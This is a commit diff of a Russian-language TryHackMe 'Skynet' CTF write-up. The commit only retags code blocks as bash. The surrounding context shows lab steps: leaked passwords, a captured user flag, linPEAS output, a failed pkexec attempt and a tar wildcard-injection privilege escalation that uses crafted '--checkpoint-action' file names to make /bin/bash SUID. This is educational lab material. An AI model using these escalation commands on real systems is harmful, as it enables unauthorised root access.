

Before and after one commit to 0x2d-pentest/TryHackMe, a Markdown page: Win Easy - Skynet/writeup.md, 3 parts joined by grey strips. Shown at 84% size. Drawn GitHub-style.

````diff
--- a/Win Easy - Skynet/writeup.md
+++ b/Win Easy - Skynet/writeup.md
@@ -172,7 +172,7 @@ tree connect failed: NT_STATUS_ACCESS_DENIED
 ```
 
 attention.txt
-```
+```bash
 ┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - Skynet/scans]
 └─$ cat attention.txt
 A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
@@ -180,7 +180,7 @@ A recent system malfunction has caused various passwords to be changed. All skyn
 ```
 
 log1.txt - похоже тут пароли, log2.txt и log3.txt - пустые
-```
+```bash
 ┌──(kali㉿0x2d-pentest)-[~/…/TryHackMe/Win Easy - Skynet/scans/logs]
 └─$ cat log1.txt
 cyborg007haloterminator
@@ -294,7 +294,7 @@ $ python -c 'import pty;pty.spawn("/bin/bash")'
 ```
 
 Флаг
-```
+```bash
 www-data@skynet:/home/milesdyson$ cat user.txt
 cat user.txt
 7ce5c2109a40f958099283600a9ae807
@@ -304,7 +304,7 @@ cat user.txt
 ## ⚙️ Привилегии
 
 Загрузил linPEAS, проверил **Pkexec binary has SUID bit set**
-```
+```bash
 ══╣ Polkit Binary
 Pkexec binary found at: /usr/bin/pkexec
 Pkexec binary has SUID bit set!
@@ -313,7 +313,7 @@ pkexec version 0.105
 ```
 
 Не прошло
-```
+```bash
 www-data@skynet:/home/milesdyson$ pkexec /bin/sh
 pkexec /bin/sh
 ==== AUTHENTICATING FOR org.freedesktop.policykit.exec ===
@@ -329,7 +329,7 @@ This incident has been reported.
 ```
 
 далее смотрю cron, есть интересная **/home/milesdyson/backups/backup.sh**
-```
+```bash
 ╔══════════╣ Check for vulnerable cron jobs
 ╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#scheduledcron-jobs
 ══╣ Cron jobs list
@@ -348,7 +348,7 @@ PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
 ```
 
 Права для backup.sh
-```
+```bash
 www-data@skynet:/home/milesdyson/backups$ ls -la
 ls -la
 total 4584
@@ -359,20 +359,20 @@ drwxr-xr-x 5 milesdyson milesdyson    4096 Sep 17  2019 ..
 ```
 
 содержимое backup.sh
-```
+```bash
 #!/bin/bash
 cd /var/www/html
 tar cf /home/milesdyson/backups/backup.tgz *
 ```
 
 Перезаписать нельзя, но есть интересный способ, основанный на том, как обрабатывается `*` в **tar**
-```
+```bash
 echo -e '#!/bin/bash\nchmod +s /bin/bash' > /var/www/html/evil.sh
 touch "/var/www/html/--checkpoint-action=exec=sh evil.sh"
 touch "/var/www/html/--checkpoint=1"
 ```
 
-```
+```bash
 www-data@skynet:/var/www/html$ ls -la
 ls -la
 total 72
````
Also changed, not shown: other parts of Win Easy - Skynet/writeup.md (+11 -11 lines).
